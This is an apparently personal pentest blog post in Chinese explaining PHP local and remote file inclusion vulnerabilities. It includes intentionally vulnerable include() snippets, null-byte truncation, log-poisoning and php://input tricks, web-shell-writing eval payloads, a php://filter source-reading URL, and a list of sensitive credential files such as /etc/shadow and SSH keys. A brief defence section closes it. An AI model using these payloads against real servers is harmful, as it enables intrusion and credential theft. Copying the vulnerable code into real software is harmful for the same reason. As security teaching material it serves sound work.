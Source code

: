 +++
date = "2016-07-26T09:24:22+08:00"
description = ""
draft = false
tags = ["文件包含"]
title = "文件包含漏洞"
topics = ["Pentest"]

+++

### 0x00 文件包含
> ```
  程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。
  程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。
  几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多,
而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端。
  在PHP中经常出现包含漏洞，但这并不意味这其他语言不存在。
```

### 0x01 常见文件包含函数
> ```
include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
include_once()和require_once()：若文件中代码已被包含则不会再次包含
```

### 0x02 利用条件
* 程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
* 用户能够控制该动态变量

> ``` 
注：PHP中只要文件内容符合PHP语法规范，包含时不管扩展名是什么都会被PHP解析，  
   若文件内容不符合PHP语法规范则会暴漏其源码。包含不存在的文件则可能暴露路径
```

### 0x03 漏洞危害
> ```
执行任意代码
包含恶意文件控制网站
甚至控制服务器
```

### 0x04 漏洞分类
> ```
本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
    上传图片马，然后包含
    读敏感文件，读PHP文件
    包含日志文件GetShell
    包含/proc/self/envion文件GetShell
    包含data:或php://input等伪协议
    若有phpinfo则可以包含临时文件
远程文件包含：可以直接执行任意代码
    要保证php.ini中allow_url_fopen和allow_url_include要为On
```

### 0x05 漏洞挖掘
> ```
上AWVS吧，骚年...
```

### 0x06 本地包含
* 示例一

> ```php
<?php
    if (@$_GET['page']) {  
        include($_GET['page']);
    } else {  
        include "show.php";
    }
?>
```
{{% fluid_img src="/img/post/file_include_upload1.png" alt="文件包含-上传图片马.png" %}}
<br /><br />
{{% fluid_img src="/img/post/file_include_upload1_check.png" alt="文件包含-验证能包含图片马.png" %}}

* 示例二

> ```php
<?php
    if (@$_GET['page']) {
        include("./action/".$_GET['page']);
    } else {
        include "./action/show.php";
    }
?>
```
{{% fluid_img src="/img/post/file_include_upload2.png" alt="文件包含-上传图片马.png" %}}
<br /><br />
{{% fluid_img src="/img/post/file_include_upload2_check.png" alt="文件包含-验证能包含图片马.png" %}}

* %00截断包含(PHP<5.3.4 and magic_quotes_gpc=off)

> ```php
<?php
    if (@$_GET['page']) {
        include "./action/".$_GET['page'].".php";
        echo "./action/".$_GET['page'].".php";
    } else {
        include "./action/show.php";
    }
?>
```
{{% fluid_img src="/img/post/file_include_upload3.png" alt="文件包含-上传图片马.png" %}}
<br /><br />
{{% fluid_img src="/img/post/file_include_upload3_check.png" alt="文件包含-验证能包含图片马.png" %}}<br /><br />
还有一个路径长度截断，Linux可以用./或/截断，需要文件名长度大于4096，Windows可以  
用\\.或./或\或/截断，需要大于256，是否能成功截断有多方面原因，可以说是靠运气的

* 示例四

> ```
上传图片马，马包含的代码为<?fputs(fopen("shell.php","w"),"<?php eval($_POST[xxser]);?>")?>，
上传后图片路径为/uploadfile/201643.jpg，当访问
http://localhost/dvwa/vulnerabilities/fi/?page=../../uploadfile/201643.jpg时，
将会在fi这个文件夹下生成shell.php,内容为<?php eval($_POST[xxser]);?>
```

* 读敏感文件
{{% fluid_img src="/img/post/file_include_read_file.png" alt="文件包含-读敏感文件.png" %}}
可读如下敏感文件：

> ```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

* 读PHP文件

> ```
直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
?page=php://filter/read=convert.base64-encode/resource=config.php
访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码
```

* 包含日志(主要是得到日志的路径)

> ```
读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log
```
> 日志会记录客户端请求及服务器响应的信息，访问```http://www.xx.com/<?php phpinfo(); ?>```时，<?php phpinfo(); ?>也会被记录在日志里，也可以插入到User-Agent
{{% fluid_img src="/img/post/file_include_access.log1.png" alt="文件包含-包含日志.png" %}}
可以通过Burp Suite来绕过编码
{{% fluid_img src="/img/post/file_include_access.log2.png" alt="文件包含-包含日志.png" %}}
日志内容如下：
{{% fluid_img src="/img/post/file_include_access.log3.png" alt="文件包含-包含日志.png" %}}
<br /><br />
{{% fluid_img src="/img/post/file_include_access.log4.png" alt="文件包含-包含日志.png" %}}

* 包含环境变量文件GetShell

> ```
需要PHP运行在CGI模式
然后和包含日志一样，在User-Agent修改为payload
```

* 使用PHP封装协议

> ```
allow_url_include=On时,若执行http://www.xxx.com/index.php?page=php://input,并且提
交数据<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['xxxser']);?>") ?>
结果将在index.php所在文件下生成一句话文件shell.php
```
{{% fluid_img src="/img/post/file_include_enprotocol1.png" alt="文件包含-用PHP封装协议写shell1.png" %}}
<br /><br />
{{% fluid_img src="/img/post/file_include_enprotocol2.png" alt="文件包含-用PHP封装协议写shell2.png" %}}

* phpinfo包含临时文件

> ```
向phpinfo上传文件则可以返回文件路径，但是文件存在时间很短，
可以用程序持续上传，然后就可以包含你上传的文件了
```

### 0x07 远程包含
> 注：远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的
{{% fluid_img src="/img/post/file_include_remote_include.png" alt="文件包含-远程包含.png" %}}
若在a.txt写入<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[xxx]); ?>") ?>，可直接写shell

### 0x08 漏洞防御
> ```
PHP中使用open_basedir配置，将访问限制在指定区域
过滤./\
禁止服务器远程文件包含
```